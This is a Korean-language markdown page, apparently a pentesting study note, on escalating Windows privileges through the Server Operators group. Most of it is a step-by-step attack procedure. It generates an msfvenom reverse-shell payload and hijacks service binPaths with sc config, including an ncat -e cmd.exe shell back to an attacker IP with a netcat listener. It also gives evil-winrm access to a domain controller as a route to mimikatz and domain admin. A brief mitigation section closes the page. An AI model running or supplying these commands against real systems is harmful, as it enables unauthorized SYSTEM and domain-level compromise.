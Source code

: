 ```yaml
---
layout: page
title: Server_Operator_(Group)
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

# Server Operators 그룹을 이용한 권한 상승 가이드

`Server Operators`는 서버의 운영 및 관리를 위해 설계된 그룹으로, 멤버들은 서비스를 시작 및 중지하고, 백업 및 복원을 수행하며, 서버에 원격으로 로그인할 수 있는 등 강력한 권한을 가집니다. 이 권한들은 권한 상승의 경로로 악용될 수 있습니다.

https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

---

### **1. 취약점 식별**

- **목표:** 현재 사용자가 `Server Operators` 그룹의 멤버인지 확인합니다.

```powershell
whoami /groups
```

- **확인 사항:** 출력된 목록에서 `Server Operators` 그룹이 포함되어 있는지 확인합니다.

---

### **2. 공격 벡터**

#### **벡터 A: 서비스 제어를 통한 권한 상승**

- **원리:** `Server Operators`는 서비스를 시작하고 중지할 권한이 있습니다. 만약 이 그룹이 특정 서비스의 실행 파일(`binPath`)을 수정할 권한(`SERVICE_CHANGE_CONFIG`)까지 가지고 있다면, 해당 서비스의 실행 파일을 악성 페이로드로 교체하고 서비스를 재시작하여 `SYSTEM` 권한을 획득할 수 있습니다.

- **단계별 공격 절차:**
  1.  **권한 확인:** `accesschk.exe` 등으로 `Server Operators` 그룹이 수정 가능한 서비스를 찾습니다.
  2.  **페이로드 생성 및 업로드:** `msfvenom`으로 리버스 셸 `exe` 파일을 생성하여 서버에 업로드합니다.
  ```powershell
  msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.1.205 lport=443 -f exe > shell.exe
  ```
  4.  **서비스 경로 변경:** `sc config` 명령어로 취약한 서비스의 `binPath`를 악성 페이로드의 경로로 변경합니다.
  ```powershell
  sc config <vulnerable_service> binPath= "C:\Temp\revshell.exe"
  ```
  5.  **서비스 재시작:** `sc stop` 및 `sc start` 명령어로 서비스를 재시작하여 페이로드를 실행시키고, 공격자 리스너에서 `SYSTEM` 셸을 획득합니다.
  ```powershell
  sc stop <vulnerable_service>
  sc start <vulnerable_service>
  ```

#### **벡터 B: 도메인 컨트롤러(DC) 원격 접속 (더 치명적)**

- **원리:** 기본적으로 `Server Operators` 그룹은 **도메인 컨트롤러에 원격으로 로그인할 수 있는 권한**을 가집니다. 이는 매우 큰 보안 위협으로, 공격자가 DC에 직접 접속하여 추가적인 권한 상승 공격(예: `mimikatz`를 이용한 메모리 덤프)을 수행할 발판을 마련해주기 때문입니다.

- **공격 절차:**
  1.  `Server Operators` 그룹에 속한 사용자의 자격증명을 획득합니다.
  2.  해당 자격증명을 사용하여 `evil-winrm`이나 `xfreerdp` 등으로 도메인 컨트롤러에 직접 원격 접속을 시도합니다.
  ```bash
  evil-winrm -i <DC_IP> -u <server_operator_user> -p <password>
  ```
  3.  DC에 접속한 후, 추가적인 내부 정찰 및 권한 상승 공격을 수행하여 최종적으로 도메인 관리자 권한을 획득합니다.

---
### **3. 공격 절차**

- 이 그룹에 속해 있다면, `services`를 실행
- 수정할 수 있는 서비스들과 해당 서비스의 실행 파일(binary) 경로를 보여줌
- 리버스 쉘(revshell)을 생성한 후, 서비스의 실행 파일을 리버스 쉘로 교체


```powershell
services
sc.exe config VMTools binPath= "C:\Users\aarti\Documents\shell.exe"
sc.exe stop VMTools
sc.exe start VMTools
```

```powershell
sc.exe config AWSLiteAgent binPath= "C:\Windows\tasks\ncat.exe -e cmd.exe [kali_ip] 443"
```

```bash
nc -lvnp 443
```

---

### **4. 방어 (Mitigation)**

- **멤버십 최소화:** `Server Operators` 그룹의 멤버십을 엄격하게 제한하고, 일상적인 관리 작업에는 사용하지 않도록 합니다.
- **권한 감사:** 그룹 정책(GPO)을 통해 `Server Operators`의 DC 원격 로그온 권한을 제한하거나 제거하는 것을 고려합니다.
- **서비스 ACL 감사:** 각 서비스의 접근 제어 목록(ACL)을 정기적으로 검토하여 비정상적인 권한 할당이 없는지 확인합니다.

